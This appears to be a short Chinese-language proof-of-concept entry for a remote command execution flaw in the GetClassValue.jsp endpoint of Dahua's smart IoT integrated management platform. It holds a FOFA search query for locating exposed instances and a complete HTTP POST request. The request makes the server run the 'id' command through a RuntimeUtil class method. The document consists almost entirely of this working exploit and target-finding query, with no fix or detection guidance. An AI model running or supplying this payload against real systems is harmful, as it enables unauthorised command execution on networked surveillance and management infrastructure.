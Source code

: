 大华智能物联管理平台GetClassValue.jsp接口存在远程命令执行漏洞

fofa

body="客户端会小于800"||app="dahua-智能物联综合管理平台"

poc

POST /evo-apigw/admin/API/Developer/GetClassValue.jsp HTTP/1.1
Host: 
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{
    "data": {
        "clazzName": "com.dahua.admin.util.RuntimeUtil",
        "methodName": "syncexecReturnInputStream",
        "fieldName": ["id"]
    }
}